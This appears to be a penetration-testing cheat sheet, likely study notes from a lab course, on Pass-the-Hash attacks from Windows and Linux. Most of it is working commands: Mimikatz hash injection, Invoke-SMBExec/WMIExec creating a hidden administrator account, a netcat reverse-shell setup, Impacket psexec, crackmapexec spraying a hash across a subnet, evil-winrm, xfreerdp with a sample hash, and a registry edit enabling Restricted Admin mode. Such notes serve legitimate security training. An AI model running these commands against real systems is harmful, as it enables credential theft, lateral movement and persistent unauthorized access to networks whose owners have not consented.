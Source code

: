 - [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication.
- The traditional pass-the-hash technique involves reusing a hash through the NTLMv1/NTLMv2 protocol, which doesn't touch Kerberos at all.
---
## PtH from Windows
- PtH with [Mimikatz](https://github.com/gentilkiwi).
	``` powershell
	c:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<name> /rc4:<MTLM hash> /domain:<> /run:cmd.exe" exit
	```
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to.
		- For local user account, use the machine name, localhost or a dot (.).
	- After executing the above command, another CMD window in the context of the target user will pop up.
- PtH with [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash).
	- The tool can perform PtH with WMI and SMB through the .NET TCPClient.
	- Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol.
	- Admin priv not required on client-side, but the user and hash we use to authenticate need to have admin priv on the target.
	- The following command will create a new user and add it to admins group.
	``` powershell
	PS> Import-Module .\Invoke-TheHash.psd1
	PS> Invoke-SMBExec -Target IP -Domain Domain -Username Name -Hash NTLM/NT:NTLM -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
	# OR
	PS> Invoke-WMIExec -Target IP -Domain Domain -Username Name -Hash NTLM/NT:NTLM -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
	```
- We can also get a reverse shell connection in the target machine.
	1. Start a netcat listener on attack host `nc.exe -lvnp 8001`
	2. Create a rev shell payload using [revshells](https://www.revshells.com/), set `IP`, `PORT`, `PowerShell #3 (Base64)`.
	3. Utilize `Invoke-WMIExec` to execute the payload on the target machine
		``` powershell
		PS> Invoke-WMIExec -Target <IP/Hostname> -Domain <domain> -Username <name> -Hash <hash> -Command "The payload"
		```
## PtH from Linux
- PtH with [Impacket](https://github.com/SecureAuthCorp/impacket)
	``` bash
	$ impacket-psexec USER@IP -hashes :<hash>
	```
	- we can also use [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py).
- PtH with `crackmapexec`
	``` bash
	# Authenticate the leaked user creds against every host in the domain's subnet, or provide IP for one host
	crackmapexec smb 172.16.1.0/24 -u administrator -d <domain or .> -H <hash>
	# To perform the same actions against local administrator hash add --local-auth to the command.
	# To execute commands add `-x <command>` to the command.
	```
- PtH with `evil-winrm`
	``` bash
	$ evil-winrm -i <IP> -u Administrator -H <hash>
	# In case of using a domain account, include it, for example: administrator@domain
	```
- RDP 
	- PtH with `xfreerdp`
		``` bash
		xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
		```
  - `Restricted Admin Mode` is disabled by default, it should be enabled on the target host.
  <img src="https://academy.hackthebox.com/storage/modules/147/rdp_session-4.png" style="width:40%; height:40%;">

  - Enable it by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of `0`. 
      ```cmd
      c:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
      ```

> [!Note]
> **UAC protection**:
> UAC (User Account Control) limits local users' ability to perform remote administration operations. 
> If the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` set to `0`, 
> it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks.
> If set to `1`, it allows the other local admins as well.
> 
> **Exception**:
> The registry key `FilterAdministratorToken` (disabled by default).
> If its value is `1`, the RID 500 account (even if it is renamed) is enrolled in UAC protection.
> This means that remote PTH will fail against the machine when using that account.
> 
> These settings are only for local administrative accounts.
> If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.

---
